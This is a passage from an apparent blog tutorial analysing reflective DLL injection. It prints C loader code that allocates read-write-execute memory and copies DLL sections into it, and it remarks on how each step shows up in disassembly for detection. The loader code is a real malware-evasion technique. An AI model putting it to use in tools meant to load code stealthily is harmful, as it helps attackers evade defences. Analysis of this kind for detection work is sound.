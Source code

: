 A quick look at many github projects reveals the whole list:

![ref14](https://artik.blue/images/reflective/14_hash_list.png)

Having done that, the loader goes for step 2, using the recently resolved VirtualAlloc to load itself (the whole DLL) in memory on the program:
```C
// STEP 2: load our image into a new permanent location in memory...

	// get the VA of the NT Header for the PE to be loaded
	uiHeaderValue = uiLibraryAddress + ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;

	// allocate all the memory for the DLL to be loaded into. we can load at any address because we will  
	// relocate the image. Also zeros all memory and marks it as READ, WRITE and EXECUTE to avoid any problems.
	uiBaseAddress = (ULONG_PTR)pVirtualAlloc( NULL, ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfImage, MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE );

	// we must now copy over the headers
	uiValueA = ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfHeaders;
	uiValueB = uiLibraryAddress;
	uiValueC = uiBaseAddress;
```
This one is easy to detect as well as a call to VirtualAlloc follows a easily detectable pattern comprised of the 0x40 for RWX and a big chunk for the size to be allocated...
![ref15](https://artik.blue/images/reflective/15_callvalloc.png)


Then step 3 maps the DLL itself section by section:
```C
// STEP 3: load in all of our sections...

	// uiValueA = the VA of the first section
	uiValueA = ( (ULONG_PTR)&((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader + ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.SizeOfOptionalHeader );
	
	// itterate through all sections, loading them into memory.
	uiValueE = ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.NumberOfSections;
	while( uiValueE-- )
	{
		// uiValueB is the VA for this section
		uiValueB = ( uiBaseAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->VirtualAddress );

		// uiValueC if the VA for this sections data
		uiValueC = ( uiLibraryAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->PointerToRawData );

		// copy the section over
		uiValueD = ((PIMAGE_SECTION_HEADER)uiValueA)->SizeOfRawData;

		while( uiValueD-- )
			*(BYTE *)uiValueB++ = *(BYTE *)uiValueC++;

		// get the VA of the next section
		uiValueA += sizeof( IMAGE_SECTION_HEADER );
	}
```
That nested while can be identified as well, though in a less clear way. Here we should pay attention to the mov byte inside a loop.
![ref16](https://artik.blue/images/reflective/16_step3.png)
